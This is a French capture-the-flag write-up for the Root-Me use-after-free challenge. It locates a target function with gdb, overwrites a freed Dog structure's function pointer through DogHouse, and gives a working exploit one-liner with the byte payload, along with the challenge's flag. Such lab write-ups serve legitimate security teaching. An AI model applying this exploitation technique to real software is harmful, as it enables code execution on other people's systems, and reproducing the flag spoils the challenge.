 # [ELF x86 - Use After Free - basic](https://www.root-me.org/fr/Challenges/App-Systeme/ELF-x86-Use-After-Free-basic)

L'objectif de ce challenge est d'exploiter une vulnérabilité de type _Use After Free_ pour exécuter la fonction `bringBackTheFlag` et récupérer le flag stocké dans le fichier `.passwd`.

## Localisation de l'adresse de la fonction cible

Pour identifier l'adresse de la fonction `bringBackTheFlag`, on utilise `gdb` :  

```bash
gdb ./ch63
```

On peut ensuite afficher l'adresse de la fonction :  

```
(gdb) info address bringBackTheFlag 
Symbol "bringBackTheFlag" is at 0x80487cb in a file compiled without debugging.
```

## Exploitation de la vulnérabilité

Le programme gère deux structures :
- Une structure `Dog`, qui contient un pointeur vers la fonction `bringBackTheFlag`.
- Une structure `DogHouse`, qui peut réutiliser la mémoire libérée par un objet `Dog` après sa libération.

L'objectif est de réutiliser la mémoire libérée de la structure `Dog` (via la fonction `death`) et de remplacer son pointeur `bark` avec l'adresse `0x80487cb`.

L'entrée `AAAAAAAAAAAA\xcb\x87\x04\x08` permet de remplir le champ `address` de `DogHouse` en positionnant l'adresse `0x80487cb` dans le champ `bark` de l'ancienne structure `Dog`.

Le programme affiche le flag après avoir appelé la fonction `bringBackTheFlag`.

La commande suivante permet de récupérer le flag :

```bash
printf "1\ndog\n4\n5\nAAAAAAAAAAAA\xcb\x87\x04\x08\n\n3\n0\n" | ./ch63
```

Le flag est ensuite affiché : `U44aafff_U4f_The_d0G`.
